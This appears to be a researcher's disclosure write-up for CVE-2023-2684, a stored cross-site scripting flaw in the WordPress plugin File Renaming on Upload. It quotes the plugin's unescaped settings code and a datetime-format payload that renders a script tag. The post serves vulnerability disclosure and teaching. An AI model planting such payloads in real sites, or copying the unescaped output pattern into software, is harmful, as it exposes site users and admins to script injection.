


# File Renaming on Upload <= 2.5.1 - Authenticated (Admin+) Stored Cross-Site Scripting

<aside class="mdx-author" markdown>
![@squidfunk][@squidfunk avatar]

<span>**suhao** · @h40huynh</span>
<span>
:octicons-calendar-24: June 1, 2023 ·
:octicons-clock-24: 5 min read
</span>

</aside>

[built-in search plugin]: ../../setup/setting-up-site-search.md#built-in-search-plugin
[@squidfunk avatar]: ../../assets/author/haoicon.png
[insiders-4.14.0]: ../../insiders/changelog.md#4.14.0

---

## Introdution

During my search for a plugin with the functionality to modify file names after uploading, I came across a particular plugin that seemed promising. As a security enthusiast, I decided to delve deeper into its code and settings to ensure it was robust and free from vulnerabilities.

## About my CVE

The CVE-2023-2684 vulnerability is a Stored Cross-Site Scripting (XSS) issue that exists within the plugin's setting panel. This plugin does not sanitise and escape datetime format settings, which could allow high privilege users such as admin to perform Stored Cross-Site Scripting attacks even when the unfiltered_html capability is disallowed.

**Affected wordpress plugin**: https://wpscan.com/plugin/file-renaming-on-upload

**CVE reference**: https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/file-renaming-on-upload/file-renaming-on-upload-251-authenticated-admin-stored-cross-site-scripting

## Vulnerability Analysis

In the plugin's settings panel, there is a datetime setting rule for renaming filenames, which is accompanied by an example showing the output time.



Without diving into knowledge of programming WordPress plugins and library usage, we can still exploit this vulnerability by carefully examining the following code snippet:

```php
<?php
// class-datetime-option.php
public function add_fields( $fields, $section ) {
    $datetime = \DateTime::createFromFormat( 'U.u', number_format( microtime( true ), 6, '.', '' ) );
    $format   = $datetime->format( $this->get_option( $this->option_datetime_format, 'Y-m-d_H-i-s_u' ) );
    $new_options = array(
        array(
            'name'           => $this->option_id,
            'label'          => __( 'Datetime', 'file-renaming-on-upload' ),
            'desc'           => __( 'Enables Datetime rule', 'file-renaming-on-upload' ) . ' - ' . '<strong>{' . $this->option_id . '}</strong>',
            'desc_secondary' => __( "Gets the current date and time.", 'file-renaming-on-upload' ),
            'type'           => 'checkbox',
            'default'        => 'no',
        ),
        array(
            'name'        => $this->option_datetime_format,
            'desc'        => __( 'Datetime format ', 'file-renaming-on-upload' ) . sprintf( __( 'You can see more formats <a target="_blank" href="%s">here</a>', 'file-renaming-on-upload' ), 'http://php.net/manual/function.date.php' ) . '<br />' . sprintf( __( 'Result: <b>%s</b>', 'file-renaming-on-upload' ), $format ),
            'type'        => 'text',
            'default'     => 'Y-m-d_H-i-s_u',
            'placeholder' => 'Y-m-d_H-i-s_u',
        ),
        array(
            'name' => 'datetime_separator',
            'type' => 'separator',
        ),
    );

    return parent::add_fields( array_merge( $fields, $new_options ), $section );
}
```

Let's examine the HTML tags used in the previous string of options: `sprintf( __( 'Result: <b>%s</b>', 'file-renaming-on-upload' ), $format )`. We should consider that if the result of the datetime includes HTML tags, it could potentially introduce an XSS vulnerability.

To exploit this vulnerability, all we need to do is find a way to manipulate the datetime function to generate the desired HTML syntax. According to the instructions, we can use the formatting provided in this PHP function: https://www.php.net/manual/en/function.date.php.

```php
<?php
// Assuming today is March 10th, 2001, 5:16:18 pm, and that we are in the
// Mountain Standard Time (MST) Time Zone

$today = date("F j, Y, g:i a");                 // March 10, 2001, 5:16 pm
$today = date("m.d.y");                         // 03.10.01
$today = date("j, n, Y");                       // 10, 3, 2001
$today = date("Ymd");                           // 20010310
$today = date('h-i-s, j-m-y, it is w Day');     // 05-16-18, 10-03-01, 1631 1618 6 Satpm01
$today = date('\i\t \i\s \t\h\e jS \d\a\y.');   // it is the 10th day.
$today = date("D M j G:i:s T Y");               // Sat Mar 10 17:16:18 MST 2001
$today = date('H:m:s \m \i\s\ \m\o\n\t\h');     // 17:03:18 m is month
$today = date("H:i:s");                         // 17:16:18
$today = date("Y-m-d H:i:s");                   // 2001-03-10 17:16:18 (the MySQL DATETIME format)
?>
```

To keep the characters intact, we need to append a backslash (\\) before each one. Hence, the payload for executing an XSS attack is as follows:

```
Y-m-d_H-i-s_u\<\s\c\r\i\p\t\>\a\l\e\r\t\(\d\o\c\u\m\e\n\t\.\d\o\m\a\i\n\)\<\/\s\c\r\i\p\t\>
```



That concludes the entire process of how I discovered this CVE. Thank you for taking the time to read through it.

Timeline

```


Publicly Published
2023-05-25 (about 22 days ago)
```
